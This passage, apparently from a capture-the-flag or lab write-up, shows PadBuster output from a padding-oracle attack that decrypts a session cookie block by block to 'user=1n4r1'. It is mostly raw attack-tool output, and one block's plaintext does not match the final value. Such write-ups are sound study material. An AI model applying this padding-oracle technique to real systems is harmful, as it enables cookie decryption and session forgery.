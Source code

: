 
INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 15

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	1133	N/A
2 **	255	200	15	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended :  2
{% endhighlight %}

Then, wait for the result.<br>
We can decrypt the base64 and the value is "user=1n4r1".
{% highlight shell %}
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (126/256) [Byte 8]
[+] Success: (241/256) [Byte 7]
[+] Success: (47/256) [Byte 6]
[+] Success: (220/256) [Byte 5]
[+] Success: (127/256) [Byte 4]
[+] Success: (24/256) [Byte 3]
[+] Success: (221/256) [Byte 2]
[+] Success: (156/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 64e730165be8801c
[+] Intermediate Bytes (HEX): 6c24ee8420d20d83
[+] Plain Text: user=ina

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (229/256) [Byte 8]
[+] Success: (124/256) [Byte 7]
[+] Success: (19/256) [Byte 6]
[+] Success: (167/256) [Byte 5]
[+] Success: (235/256) [Byte 4]
[+] Success: (208/256) [Byte 3]
[+] Success: (47/256) [Byte 2]
[+] Success: (226/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): da6ba027bc005e64
[+] Intermediate Bytes (HEX): 16d636105dee861a
[+] Plain Text: r1

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=1n4r1

